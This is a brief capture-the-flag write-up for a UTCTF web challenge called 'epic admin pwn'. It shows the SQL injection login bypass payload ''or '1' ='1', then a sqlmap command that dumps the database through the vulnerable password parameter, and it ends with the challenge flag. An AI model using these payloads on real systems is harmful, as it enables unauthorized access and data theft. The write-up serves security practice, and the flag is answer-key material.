



# [cd ../](../../index.md)
# epic admin pwn
> this challenge is epic i promise  
> the flag is the password  
> by matt  
> PTS: 50

## Link
[link](http://web2.utctf.live:5006/)

# Start
  

## Getting the sqli

Try some basic sqli!

USERNAME | PASSWORD
--- | ---
`admin` | `'or '1' ='1`

Will work!  
  
So we have an sqli on the `pass` parameter!!

## Getting the flag

Open burp and send `asd:asd`  
  

- Right click and `Copy to file`  
  Save the file as `login.req`

```
sqlmap.py -r login.req -p pass --dump
```


# Got the flag
```
utflag{dual1pa1sp3rf3ct}
```
